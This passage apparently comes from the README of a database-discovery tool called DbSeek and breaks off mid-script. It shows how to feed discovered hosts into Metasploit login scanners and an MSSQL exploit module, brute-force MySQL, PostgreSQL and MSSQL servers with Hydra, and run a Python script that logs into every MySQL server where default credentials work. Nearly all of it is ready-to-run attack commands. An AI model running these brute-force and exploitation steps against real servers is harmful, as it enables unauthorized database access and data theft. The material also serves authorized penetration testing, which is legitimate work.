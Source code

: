 ### Metasploit Integration
```bash
# 1. Discover databases with DbSeek
./dbseek.py -t

# 2. Import to Metasploit
msfconsole

# 3. Test MySQL
msf6 > use auxiliary/scanner/mysql/mysql_login
msf6 auxiliary(mysql_login) > set RHOSTS file:dblist.txt
msf6 auxiliary(mysql_login) > set USER_FILE users.txt
msf6 auxiliary(mysql_login) > set PASS_FILE passwords.txt
msf6 auxiliary(mysql_login) > run

# 4. PostgreSQL enumeration
msf6 > use auxiliary/scanner/postgres/postgres_login
msf6 > use auxiliary/admin/postgres/postgres_sql

# 5. MSSQL exploitation
msf6 > use exploit/windows/mssql/mssql_payload
```

### Hydra Integration
```bash
# 1. Get database server list
./dbseek.py
cat dblist.txt

# 2. Brute force MySQL
hydra -L users.txt -P passwords.txt mysql://192.168.1.50

# 3. Brute force PostgreSQL
hydra -L users.txt -P passwords.txt postgres://192.168.1.51

# 4. Brute force MSSQL
hydra -L users.txt -P passwords.txt mssql://192.168.1.53
```

### Custom Scripts
```python
#!/usr/bin/env python3
"""
Parse DbSeek JSON output and connect to databases
"""
import json
import pymysql

# Read DbSeek results
with open('db_details.json') as f:
    results = json.load(f)

# Connect to all MySQL servers with working creds
for result in results:
    if result['databases_found']:
        for service_name, service_info in result['services'].items():
            if 'MySQL' in service_name and service_info.get('default_creds_work'):
                creds = service_info['working_creds']
                try:
                    conn = pymysql.connect(
                        host=result['ip'],
                        user=creds['username'],
                        password=creds['password']
```
